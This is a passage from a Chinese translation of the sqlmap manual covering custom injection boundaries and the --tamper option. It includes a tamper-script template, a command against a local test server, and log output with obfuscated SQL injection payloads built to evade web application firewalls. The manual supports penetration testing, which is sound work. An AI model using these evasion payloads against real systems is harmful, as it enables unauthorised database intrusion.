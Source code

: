 ```
$query = "SELECT * FROM users WHERE id=('1') <PAYLOAD> AND ('abc'='abc') LIMIT 0, 1";
```
这使得查询在语法上正确。

在这个简单的例子中，sqlmap可以自动检测，而无需提供自定义边界，但有时在实际应用中很复杂，例如当注入点位于嵌套JOIN查询中时，有必要提供它。

#### **3.5.10 指定注入数据**

> 参数 --tamper

sqlmap只会对CHAR()字符串进行混淆，对其他的payload不会进行任何混淆。当我们需要绕过IPS设备或Web应用程序防火墙（WAF）时，我们可以使用此选项。

参数后面接一个逗号分隔的脚本列表（例如`--tamper="between,randomcase"`）

sqlmap在tamper/目录中有许多可用的tamper脚本。tamper脚本的作用是对payload进行混淆。 有效的脚本格式如下：
```
# 需要的库
from lib.core.enums import PRIORITY

# 定义tamper脚本顺序
__priority__ = PRIORITY.NORMAL

def tamper(payload):
    '''
    对tamper的说明
    '''

    retVal = payload

    # tamper代码

    # 返回修改后的payload
    return retVal
```

以下是一个针对MySQL目标的示例，在该示例中`>`字符，空格字符和开头的SELECT字符串是被禁止的。
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
```

输出
```
[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable 
[...]
```
### 3.6 检测
